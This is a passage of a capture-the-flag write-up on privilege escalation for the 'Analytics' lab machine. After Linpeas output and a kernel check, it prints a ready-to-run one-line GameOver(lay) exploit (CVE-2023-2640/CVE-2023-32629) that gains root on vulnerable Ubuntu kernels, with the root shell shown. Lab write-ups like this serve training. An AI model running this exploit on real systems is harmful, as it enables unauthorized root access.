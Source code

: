 ```
drwxr-x--- 4 metalytics metalytics 4096 Aug  8 11:37 .
drwxr-xr-x 3 root       root       4096 Aug  8 11:37 ..
lrwxrwxrwx 1 root       root          9 Aug  3 16:23 .bash_history -> /dev/null
-rw-r--r-- 1 metalytics metalytics  220 Aug  3 08:53 .bash_logout
-rw-r--r-- 1 metalytics metalytics 3771 Aug  3 08:53 .bashrc
drwx------ 2 metalytics metalytics 4096 Aug  8 11:37 .cache
drwxrwxr-x 3 metalytics metalytics 4096 Aug  8 11:37 .local
-rw-r--r-- 1 metalytics metalytics  807 Aug  3 08:53 .profile
-rw-r----- 1 root       metalytics   33 Dec 29 00:10 user.txt
-rw-r--r-- 1 metalytics metalytics   39 Aug  8 11:30 .vimrc

metalytics@analytics:~$ cat user.txt 
#* * * ALERT * * * * * * * * * * * * * * * * 
#* If you really want to see this flag, go * 
#* to FLAG CODES at the bottom of the page *
#* * * * * * * * * * * * * * * * * * * * * *
```

### **Privilege Escalation**

After running a `PrivEsc` tool like `Linpeas` you will be able to see that this kernel is vulnerable.  
```bash
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.3 LTS
Release:	22.04
Codename:	jammy
```

Confirming System Kernel
```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

There is a great article written by **CrowdStrike** showing details about this vulnerability, if you have time, get a cup of coffee and have a good reading here: [New Container Exploit: Rooting Non-Root Containers with CVE-2023-2640 and CVE-2023-32629, aka GameOver(lay)](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)

Running the **exploit** for this privilege escalation technique
```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
